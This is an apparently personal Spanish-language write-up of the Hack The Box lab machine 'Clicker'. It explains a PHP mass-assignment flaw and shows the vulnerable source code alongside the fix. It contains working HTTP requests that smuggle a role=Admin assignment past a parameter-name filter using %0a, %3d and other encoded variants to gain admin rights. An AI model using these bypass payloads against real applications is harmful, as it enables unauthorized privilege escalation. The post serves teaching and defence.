

Llevaba un rato mirando la ficha de [**Clicker**](https://app.hackthebox.com/machines/Clicker) en Hack The Box. Maquina medium, web, PHP, Linux. De esas que miras y piensas "esto lo saco en una hora con un cafe". Spoiler: no fue una hora. Pero lo que encontre dentro merece un post, porque el fallo de fondo es tan tonto, tan comun, y tan facil de explotar que da rabia que siga apareciendo en 2026.

La app es un juego de clicker. Haces clicks, subes de nivel, y cuando le das a "Save and close" tus datos se mandan al servidor en una peticion GET. Sencillo. Pero durante la enumeracion, monte el recurso **NFS** que tenia la maquina expuesto y saque un backup con todo el codigo fuente: `admin.php`, `save_game.php`, `db_utils.php`, `export.php`... El developer nos habia dejado las llaves puestas en el coche.

## Abriendo el capo: el codigo fuente

Lo primero que me miro siempre en una app PHP es como interactua con la base de datos. Abro `db_utils.php` y la funcion `create_new_player` me revela la estructura de la tabla `players`:

```php
$stmt = $pdo->prepare("INSERT INTO players(username, nickname, password, role, clicks, level) VALUES (:username, :nickname, :password, :role, :clicks, :level)");
```

Columnas: `username`, `nickname`, `password`, `role`, `clicks` y `level`. La columna `role` define si eres `User` o `Admin`. El objetivo es cambiar ese valor sin que nadie nos invite.

### save_game.php: aqui empieza la fiesta

El archivo que se ejecuta cuando guardas tu partida:

```php
<?php
session_start();
include_once("db_utils.php");

if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
    $args = [];
    foreach($_GET as $key=>$value) {
        if (strtolower($key) === 'role') {
            // prevent malicious users to modify role
            header('Location: /index.php?err=Malicious activity detected!');
            die;
        }
        $args[$key] = $value;
    }
    save_profile($_SESSION['PLAYER'], $_GET);
    // update session info
    $_SESSION['CLICKS'] = $_GET['clicks'];
    $_SESSION['LEVEL'] = $_GET['level'];
    header('Location: /index.php?msg=Game has been saved!');
}
?>
```

El codigo recorre *todos* los parametros GET y los mete en un array. Lo unico que filtra es que el nombre no sea exactamente `role` (incluso el comentario del developer dice "prevent malicious users to modify role", o sea que *sabia* que esto era un problema). Todo lo demas, bienvenido.

### save_profile(): donde se materializa el desastre

La funcion que recibe los parametros y construye la query:

```php
function save_profile($player, $args) {
    global $pdo;
    $params = ["player"=>$player];
    $setStr = "";
    foreach ($args as $key => $value) {
        $setStr .= $key . "=" . $pdo->quote($value) . ",";
    }
    $setStr = rtrim($setStr, ",");
    $stmt = $pdo->prepare("UPDATE players SET $setStr WHERE username = :player");
    $stmt -> execute($params);
}
```

Construye el `SET` *dinamicamente* con todo lo que le pases. El nombre del parametro GET se convierte directamente en el nombre de la columna SQL. Sin allowlist. Sin validacion. El developer escapa los *valores* con `$pdo->quote()` (bien), pero los *nombres de las columnas* vienen directamente del input del usuario (fatal).

Si mandas `clicks=100&level=5&role=Admin`, genera `UPDATE players SET clicks='100', level='5', role='Admin'`. Asi, sin despeinarse.

Esto es **Mass Assignment**.

## Un momento, que es Mass Assignment?



Imagina que vas a un restaurante. El camarero te trae un formulario de pedido con dos campos: primer plato y segundo plato. Tu lo rellenas, pero ademas escribes a mano: "propina: -50 euros". Si el restaurante procesa *todo* sin comprobar que campos son suyos y cuales te has inventado, te acaban debiendo dinero.

Con **Mass Assignment** pasa lo mismo. El formulario muestra `clicks` y `level`, pero tu anades `role=Admin` en la URL, y el servidor lo acepta porque no distingue entre lo legitimo y lo inventado. El problema aparece en todos los stacks: Django sin `fields`, Rails sin `strong_parameters`, Laravel con `$guarded = []`, Node con `User.findByIdAndUpdate(id, req.body)`...

En 2012 Egor Homakov exploto exactamente esto en **GitHub**, se dio acceso de commit al repo de Rails anadiendo su clave SSH por un campo que no deberia haber sido modificable. Y aqui seguimos encontrandonoslo.

No confundir con **IDOR**: Mass Assignment modifica *campos que no deberias tocar* en tu propio recurso. IDOR accede al *recurso de otro usuario*. Si combinas las dos, game over total.

## Volviendo a Clicker: el guardia y como enganarlo

El vector obvio seria `&role=Admin`. Pero el filtro lo bloquea:

```php
if (strtolower($key) === 'role') {
    die("Malicious activity detected!");
}
```

Comparacion estricta con `===`. Si no es *exactamente* `"role"`, pasa. La pregunta: que caracter ve PHP como parte del nombre pero MySQL ignora?

### Bypass 1: Newline Injection (%0a)

Piensalo como un guardia de discoteca con una lista negra: "Pepe". Si le dices "soy Pepe\n" con un salto de linea invisible, el guardia compara, ve que no son iguales, y te deja pasar. Tu sigues siendo Pepe, pero el guardia es demasiado literal.

`%0a` es un newline en URL encoding. La request:

```
GET /save_game.php?clicks=4&level=0&role%0a=Admin HTTP/1.1
Host: clicker.htb
```

PHP recibe `"role\n"`. El filtro hace `strtolower("role\n") === "role"`, resultado `false`, y deja pasar.

Cuando `save_profile()` lo mete en el SQL:

```sql
UPDATE players SET clicks='4', level='0', role
='Admin' WHERE username = 'deadlock';
```

Para MySQL el `\n` es whitespace. Query valida. Role actualizado. Respuesta: `302 Found`, `msg=Game has been saved!`.

### Bypass 2: Parameter Smuggling con %3d

Este fue el que mas me gusto. `%3d` es el `=` codificado en URL:

```
GET /save_game.php?role%3d'Admin',clicks=4&level=0 HTTP/1.1
Host: clicker.htb
```

PHP parsea la query string separando por `&`, luego busca el primer `=` **literal** (no el `%3d` codificado). PHP ve una clave `role='Admin',clicks` con valor `4`.

El filtro comprueba `strtolower("role='Admin',clicks") === "role"`. Ni de lejos. Pasa.

El SQL:

```sql
UPDATE players SET role='Admin',clicks='4', level='0' WHERE username='deadlock';
```

Lo que era el *nombre del parametro* en PHP se convierte en *dos asignaciones validas* en SQL. Gracias, buen hombre.

La diferencia con el newline: aqui no inyectas whitespace, sino que HTTP y SQL interpretan el `=` de forma distinta.

### El resto de vectores

El filtro es un colador:

- `role%0a` (newline), `role%0d` (carriage return), `role%09` (tab), `role%20` (espacio): whitespace que MySQL ignora y PHP incluye en la comparacion.
- `role/**/`: comentario SQL vacio que MySQL elimina.
- `role%3d'Admin',clicks`: smuggling de la asignacion dentro del nombre del parametro.

Seis formas de bypassear un filtro de una linea.

## El detalle de la sesion

Despues del bypass, fui a `/admin.php` y... redireccion al index. El `role` en BD ya era `Admin`, pero `$_SESSION['ROLE']` seguia en `User`. La sesion se carga al hacer login:

```php
if ($_SESSION["ROLE"] != "Admin") {
    header('Location: /index.php');
    die;
}
```

Logout, login, y ahi estaba el panel de admin. Ese `export.php` tiene otro vector (la extension del archivo sin validar), pero eso es otra historia.

## Lo que me llevo de esta maquina

La raiz tecnica: el codigo concatena las claves del input del usuario directamente en la estructura de la query SQL. El usuario controla parte de la sintaxis, y eso no se arregla con un filtro de nombre.

Lo que deberia haber hecho el developer:

```php
$allowed = ['clicks', 'level'];
$args    = [];

foreach ($allowed as $field) {
    if (isset($_GET[$field])) {
        $args[$field] = $_GET[$field];
    }
}

save_profile($_SESSION['PLAYER'], $args);
```

Lo que hace posible los bypasses es la **discrepancia entre capas del stack**. PHP parsea con unas reglas, MySQL con otras. Esa frontera es donde se abren los huecos.

La pregunta siempre es la misma: **que pasa si lo que yo mando se interpreta de forma distinta en cada capa?** Si el filtro ve una cosa y el consumidor final ve otra, tienes un vector.

> **Lo que me llevo:** Cuando veas un filtro por nombre de parametro, no pienses en como se llama el campo. Piensa en como lo interpreta cada capa del stack. El bypass esta en la discrepancia.

## Referencias y recursos

- [Clicker en Hack The Box](https://app.hackthebox.com/machines/Clicker)
- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)
- [OWASP API Security Top 10: API6:2023](https://owasp.org/API-Security/editions/2023/en/0xa6-unrestricted-access-to-sensitive-business-flows/)
- [Mass Assignment Cheat Sheet (OWASP)](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html)
- [El incidente de Egor Homakov en GitHub (2012)](https://github.blog/news-insights/company-news/public-key-security-vulnerability-and-mitigation/)
- [Rails Strong Parameters](https://edgeguides.rubyonrails.org/action_controller_overview.html#strong-parameters)
